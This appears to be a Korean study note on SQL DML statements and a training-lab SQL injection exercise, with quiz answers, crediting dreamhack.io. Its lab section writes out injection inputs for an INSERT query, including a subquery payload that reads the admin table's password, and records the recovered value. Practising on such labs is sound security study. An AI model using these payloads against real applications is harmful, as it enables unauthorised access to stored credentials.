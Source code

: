 다음은 DELETE 구문의 예시를 자세히 설명한 표입니다

DELETE 구문에서 삭제할 테이블을 정의하는 FROM, 삭제할 데이터의 조건을 정의하는 WHERE 절이 있습니다

- DELETE : 해당 문자열을 시작으로 이후에 삭제할 테이블을 정의합니다
- FROM : 삭제할 테이블을 정의합니다
- WHERE : 삭제할 행의 조건을 정의합니다

## SQL Injection 모듈 실습 3
SQL Injection 취약점이 존재하는 모듈입니다

주어진 목표를 확인하고 이를 만족하는 쿼리를 실행해보시기 바랍니다

게시판 서비스 입니다.
SQL Injection으로 admin 테이블에 있는 비밀번호를 찾으세요

```
SQL Injection으로 Insert 되는 값을 제어할 수 있습니다
e.g.
 - id: ", 1234)--
   insert into board (uid, text) values ("", 1234)--", "");
 - pw: "), (1,2)--
   insert into board (uid, text) values ("", ""), (1,2)--");
```

```
Insert 쿼리의 VALUE 값에서 서브 쿼리를 사용할 수 있습니다.
서브 쿼리를 통해 admin 테이블에 값을 가져올 수 있습니다
e.g.
 - id: ", (select upw from admin))--
   insert into board (uid, text) values ("", (select upw from admin))--", "");

apple
```

## SQL DML Quiz
> 1. C
2. A
3. C

* * * 

## Reference
Reference : https://dreamhack.io
